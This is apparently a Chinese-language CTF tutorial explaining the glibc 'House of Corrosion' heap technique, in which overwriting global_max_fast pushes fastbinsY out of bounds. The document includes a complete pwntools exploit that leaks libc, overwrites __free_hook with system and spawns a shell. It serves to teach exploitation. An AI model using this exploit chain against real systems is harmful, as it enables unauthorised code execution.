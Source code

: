 # House of Corrosion

## 1.基本原理

利用 malloc 和 free 过程中对 fastbinsY 数组边界检查不严格，通过修改 global_max_fast 为一个很大的值，造成 fastbinsY 数组越界，最终导致任意地址写的一种堆利用手法。fastbin 默认 size 是在 [0x20, 0x80]

![image-20250415230610660](./assets/9.House_of_Corrosion/image-20250415230610660.png)

这里的 size 是 chunk（实际大小，包括 chunk 头）的大小，因为 fastbin 的 size 与 fastbinsY [?] 中的值是一一对应的，fastbinsY [?] 指向该 size 大小的 chunk，fastbin 起始大小为 0x20，chunk 的大小是 0x10 递增的，fastbinY [?] 中的每个值占 0x8 字节，所以可以得到公式 &fastbinsY + (size - 0x20)/2 = &target，转化后即可得到上式

在 glibc-2.27 中增加了对 global_max_fast 的检测，但实际上汇编分析可以发现该检测被优化调了：

```c
static inline INTERNAL_SIZE_T
get_max_fast (void)
{
  /* Tell the GCC optimizers that global_max_fast is never larger
     than MAX_FAST_SIZE.  This avoids out-of-bounds array accesses in
     _int_malloc after constant propagation of the size parameter.
     (The code never executes because malloc preserves the
     global_max_fast invariant, but the optimizers may not recognize
     this.)  */
  if (global_max_fast > MAX_FAST_SIZE)
    __builtin_unreachable ();
  return global_max_fast;
}
```

在 glibc-2.37 版本中，global_max_fast 的数据类型被修改为了 int8_u，进而导致可控的空间范围大幅度缩小，最大只能为 0xff

## 2.利用思路

exp：

```python
from pwn import *

elf_path = './pwn'
libc_path = './libc.so.6'
elf = ELF(elf_path, checksec=False)
libc = ELF(libc_path)
context(arch=elf.arch, os=elf.os, log_level="debug")
# context.terminal = ['tmux','splitw','-h']
ip = '8.147.135.93'
port = 37051

local = 1
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

#-----------------------------------------------------------------------------------------
it      = lambda                    : p.interactive()
sd      = lambda data               : p.send((data))
sa     	= lambda delim,data         : p.sendafter((delim), (data))
sl      = lambda data               : p.sendline((data))
sla     = lambda delim,data         : p.sendlineafter((delim), (data))
r       = lambda numb=4096          : p.recv(numb)
ru      = lambda delims, drop=False : p.recvuntil(delims, drop)
rl      = lambda                    : p.recvline()
l       = lambda str1               : log.success(str1)
li      = lambda str1,data1         : log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               : u32(data.ljust(4, b"\x00"))
uu64    = lambda data               : u64(data.ljust(8, b"\x00"))
n64     = lambda x                  : (x + 0x10000000000000000) & 0xFFFFFFFFFFFFFFFF
u32Leakbase = lambda offset         : u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         : u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
dbg     = lambda                    : gdb.attach(p) / pause()
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sla(b"choice:\n", b"1")
    sla(b"index:\n", str(index).encode())
    sla(b"size:\n", str(size).encode())

def delete_chunk(index):
    sla(b"choice:\n", b"2")
    sla(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sla(b"choice:\n", b"3")
    sla(b"index:\n", str(index).encode())
    sla(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sla(b"choice:\n", b"4")
    sla(b"index:\n", str(index).encode())

def exit_p():
    sla(b"choice:\n", b"5")

add_chunk(0, 0x428)
add_chunk(1, 0x18)
add_chunk(2, 0x418)
add_chunk(3, 0x18)

delete_chunk(0)
show_chunk(0)
libc.address = u64Leakbase(0x39bb78)
li("libc.address", libc.address)

add_chunk(10, 0x500)
edit_chunk(0, p64(0)*3 + p64(libc.sym['global_max_fast'] - 0x20))
delete_chunk(2)
add_chunk(10, 0x500)

add_chunk(4, (libc.sym['__free_hook'] - (libc.sym['main_arena'] + 8)) * 2 + 0x10)
delete_chunk(4)
edit_chunk(4, p64(libc.sym['system']))
add_chunk(4, (libc.sym['__free_hook'] - (libc.sym['main_arena'] + 8)) * 2 + 0x10)
edit_chunk(10, b'/bin/sh\x00')
delete_chunk(10)
# dbg()
it()
```

前面适用 largebinattack2 对 global_max_fast 进行修改为一个较大的值，那么后面释放的 chunk 基本都进入了 fastbin（pwndbg 因为错误识别不出来其进入了 fastbin），并在 fastbinsY 数组中保存了其首地址，那么 `__free_hook` 此时保存的是释放的 chunk 的地址，将该 chunk 的 fd 修改为 system 函数地址，那么将该 chunk 申请出来后 `__free_hook` 处也就成功写入了 system 的地址

在对 size 大小进行申请时，其大小应该比上述公式小 0x10，因为在内存中进行 chunk 分配时，还会分配上 chunk 头的 0x10 字节

fastbinsY 数组距离 main_arena8 字节长

![image-20250415233527068](./assets/9.House_of_Corrosion/image-20250415233527068.png)